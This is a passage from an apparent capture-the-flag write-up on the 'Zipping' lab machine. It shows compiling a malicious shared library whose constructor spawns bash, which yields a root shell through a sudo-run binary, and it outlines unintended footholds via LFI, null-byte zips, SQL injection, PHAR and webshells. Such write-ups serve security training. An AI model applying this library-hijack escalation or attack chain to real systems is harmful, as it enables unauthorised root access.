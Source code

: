 
It marks the `shell` function as a constructor, which means it runs when the
library is loaded. That function simply calls `/bin/bash`, interrupting the
flow of the program and returning an interactive shell.

I’ll compile this as a shared object:

    
    
    rektsu@zipping:/home/rektsu/.config$ gcc -shared -o libcounter.so -fPIC libcounter.c
    rektsu@zipping:/home/rektsu/.config$ ls
    libcounter.c  libcounter.so
    

Now when I run `sudo stock`, after putting in the password, it drops into
`bash` as root:

    
    
    rektsu@zipping:/home/rektsu/.config$ sudo stock
    Enter the password: St0ckM4nager
    root@zipping:/home/rektsu/.config# id
    uid=0(root) gid=0(root) groups=0(root)
    

And I’m able to read the flag:

    
    
    root@zipping:~# cat root.txt
    b29a08c2************************
    

## Beyond Root - Unintended Footholds

### Background

Both these technique allows for skipping the `/shop` pages and SQL injection
entirely, focusing rather on how files are uploaded to Zipping and abusing
clever ways to bypass the LFI restrictions:

    
    
    flowchart TD;
        A[File Read via Upload]-->B(Source Analysis);
        B-->F(Null Byte Zips);
        F-->E;
        B-->C(SQLI);
        C-->D(File Write);
        D-->E[Webshell];
        B-->G(PHAR);
        G-->E;
    
    linkStyle default stroke-width:2px,stroke:#FFFF99,fill:none;
    linkStyle 1,2,6,7 stroke-width:2px,stroke:#4B9CD3,fill:none;
    

### Via Null Bytes

#### Background
